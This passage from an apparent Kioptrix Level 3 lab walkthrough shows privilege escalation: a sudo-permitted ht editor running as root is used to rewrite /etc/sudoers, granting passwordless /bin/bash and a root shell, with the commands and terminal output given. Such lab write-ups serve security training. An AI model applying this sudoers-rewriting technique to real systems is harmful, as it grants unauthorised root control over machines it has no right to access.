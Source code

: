 Since the ht editor is running as root right now, I can easily open up any file readable only by root. I go to File > Open > /etc/sudoers (Mac users running this on VMware Fusion, it's Option+Command+F):

![](/images/2012-07-16/06.png)

I see the entry for loneferret and update it so loneferret can run the bash shell using sudo. This should give us our root shell:

```
loneferret ALL=NOPASSWD: !/usr/bin/su, /usr/local/bin/ht, /bin/bash
```

Save the file, quit the editor, and try running sudo /bin/bash:

```
loneferret@Kioptrix3:~$ sudo -l
User loneferret may run the following commands on this host:
    (root) NOPASSWD: !/usr/bin/su
    (root) NOPASSWD: /usr/local/bin/ht
    (root) NOPASSWD: /bin/bash
loneferret@Kioptrix3:~$ id
uid=1000(loneferret) gid=100(users) groups=100(users)
loneferret@Kioptrix3:~$ sudo /bin/bash
root@Kioptrix3:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Kioptrix3:~# 
```

Game over, I now have a root shell. Looking around the server, I find a /root/Congrats.txt with the following message:
